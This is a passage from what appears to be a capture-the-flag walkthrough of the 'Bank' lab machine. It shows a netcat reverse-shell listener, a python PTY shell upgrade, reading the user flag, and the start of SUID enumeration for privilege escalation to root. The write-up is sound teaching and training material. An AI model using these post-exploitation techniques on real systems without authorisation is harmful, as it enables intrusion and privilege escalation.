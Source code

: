 I’ll upgrade the shell to a PTY with the [standard technique](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/):

```

www-data@bank:/var/www/bank/uploads$ python -c 'import pty;pty.spawn("bash")'
python -c 'import pty;pty.spawn("bash")'
www-data@bank:/var/www/bank/uploads$ ^Z
[1]+  Stopped                 nc -lnvp 443
root@kali# stty raw -echo
root@kali# nc -lnvp 443
                                                     reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@bank:/var/www/bank/uploads$ 

```

In the home directory of chris, I’ll find `user.txt`:

```

www-data@bank:/home/chris$ cat user.txt
37c97f86************************

```

## Priv: www-data –> root

There are two paths to root (in addition to surely some kernel exploits since this box is old). Both will be identified in [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) or [LinEnum](https://github.com/rebootuser/LinEnum), but I’ll show the commands to identify the vector.

### emergency - Path #1

#### Enumeration

One thing to look for is binaries with the Set UID flag active. These are executables that are configured such that they run not as the current user, but as the file’s owner. So when a binary is SUID and owned by root, it will run as root. If I can trick that file into running other commands, I have command execution as root.

A SUID binary will have an `s` instead of an `x` in the executable permission for the user in `ls -l` output, like this:

```

$ ls -l /usr/bin/passwd
-rwsr-xr-x 1 root root 45420 May 17  2017 /usr/bin/passwd

```

I can search for all SUID binaries owned by root on the system with this `find` command:
